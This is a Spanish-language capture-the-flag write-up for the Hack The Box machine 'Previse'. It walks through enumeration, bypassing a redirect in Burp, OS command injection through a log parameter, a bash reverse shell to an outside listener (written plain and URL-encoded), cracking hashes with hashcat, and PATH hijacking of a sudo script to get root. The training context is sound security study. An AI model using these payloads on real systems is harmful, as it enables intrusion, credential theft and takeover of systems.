 # PREVISE MACHINE
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/1.png)
 
 - [[#enumeracion|enumeracion]]
- [[#explotacion|explotacion]]
	- [[#movimiento lateral|movimiento lateral]]
- [[#elevacion de privilegios|elevacion de privilegios]]

 
 ## enumeracion
 
 vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.11.104 -oG allPorts
```

Vemos todos estos puertos abiertos:

 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/2.png)

Vamos a escanear los servicios y versiones:

```bash
nmap -p22,80 -sV -sC 10.10.11.104 -oN targeted
```

Este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/3.png)
 
 vamos a ver la pagina web:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/4.png)
 
 vemos un inicio de sesion pero no tenemos credenciales, no se encontro un SQLi o algo para realizar un bypass del inicio de sesion.
 
 Vamos a enumerar directorios o archivos, vemos que interpreta PHP asi que añadiremos esa extension al final:
 
 ```bash
 wfuzz -c -t 100 --hw=164 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://10.10.11.104/FUZZ.php"
 ```
 
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/5.png)
 
 la mas interesante es **accounts** al parecer es aqui donde puedes crearte una cuenta para ingresar por el login de la pagina, pero si lo colocamos en el navegador nos redirecciona directo al login, vamos a interceptar con burp la peticion a **http://10.10.11.104/accounts.php**
 
 damos click derecho en la peticion y elegimos Do intercept > Response to this request:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/6.png)
 
 le damos a **forward** y veremos la respuesta del servidor, es como verlo desde el **repeater**:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/7.png)
 
 vemos que el codigo de estado dice 301 pero **found** si modificamos el codigo de estado a 200 veamos que pasa:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/8.png)
 
 lo reenviamos:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/9.png)
 
 ya podemos ver el formulario de rgistro de usuario, nos creamos una cuenta e iniciamos sesion:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/10.png)
 
 nos vamos a la opcion de files y vemos lo siguiente:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/11.png)
 
 un comprimido que parece que tiene una copia del sitio lo descargamos y descomprimimos:
 
 vemos archivos que parecen de la pagina, en **config.php** vemos unas credenciales:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/12.png)
 
 y en **logs.php** vemos algo interesante:
 
 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/13.png)
 
 se ve que se pasa un parametro a una ejecucion de comando de sistemas, no se puede ver que se sanitiza correctamente la entrada por lo que esto es vulnerable a un **OS command injection**
 
## explotacion

Para ejecutar un **OS command injection** debemos realizar la concatenacion de comandos mediante un **\;** o **&&** 

revisado la pagina se encontro que en la pestaña de logs se encuentra esa variable que se le pasa a la sentencia, el **delim**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/14.png)

vamos a interceptar esa peticion al dar el boton de submit para ver como se envia:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/15.png)

vamos a usar el **;** para agregar otro comando y se ejecute, en este caso una reverse shell:

```bash
comma;/bin/bash -c "bash -i >& /dev/tcp/10.10.14.31/4242 0>&1"
```

pero lo vamos a url encodear con burp decoder:

```bash
%63%6f%6d%6d%61%3b%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%31%2f%34%32%34%32%20%30%3e%26%31%22
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/16.png)

nos colocamos a la escucha y obtenemos una conexion reversa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/17.png)

### movimiento lateral

vemos que el servicio de mysql esta abierto localmente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/18.png)

y nosotros contabamos con credenciales, vamos a ingresar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/19.png)

vemos las contraseñas de los usuarios en la base de datos **previse** la tabla **accounts**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/20.png)

vamos a realizar el crackeo con hashcat, nos interesa la contraseña del usuario **m4lwhere** ya que el puede ver la flag de usuario:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/21.png)

```bash
hashcat -a 0 -m 500 hash.txt rockyou.txt
```

despues de un buen rato obtenemos su contraseña:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/22.png)

el puerto 22 SSH estaba abierto en la maquina, intentemos conectarnos con las credenciales:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/23.png)

ingresamos y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/24.png)
 
  ## elevacion de privilegios
 
veamos que podemos ejecutar como sudo:

```bash
sudo -l
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/25.png)

si vemos ese archivo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/26.png)

al parecer esta realizando un backup de unos logs. no se ve nada explotable dentro del script pero vemos que esta usando la herramienta **gzip** pero no lo hace de la ruta absoluta, por seguridad deberia ser:

```bash
/usr/bin/gzip
```

ya que esto puede ser vulnerable a **Path Hijacking**, probemos:

samos que este script lo podemos ejecutar nosotrs como sudo, si ejecutaramos un reverse shell como sudo tendriamos una shell como root.

nos vamos a la ruta **/tmp** y creamos un archivo llamado **gzip**, con el  siguiente contenido  y le damos permisos de ejecucion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/27.png)

ahora vamos a editar la variable de entorno **PATH**, cuando un binario se lo llama para ejecucion, el sistema empiaza a buscar la ubicacion de ese binario a partir del orden de directorios de la variable PATH:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/28.png)

este es el contenido actual de la variable path, empezara buscando en **/usr/local/sbin** despues en **/usr/loacl/bin** y asi sucesivamente el binario en este caso gzip, pero que pasa si alteramos esta variable para que empieza a buscar por el directorio **/tmp** ahi creamos un archivo llamado como el binario y pensara que es eso que debe ejecutar, modifiquemos la variable:

```bash
export PATH=/tmp:$PATH
```

ahora cuando ejecutemos el script nos ponemos a la escucha yobtener una reverse shell pero como root:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/29.png)

somos root y podemos ver la segunda flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/PREVISE/images/30.png)
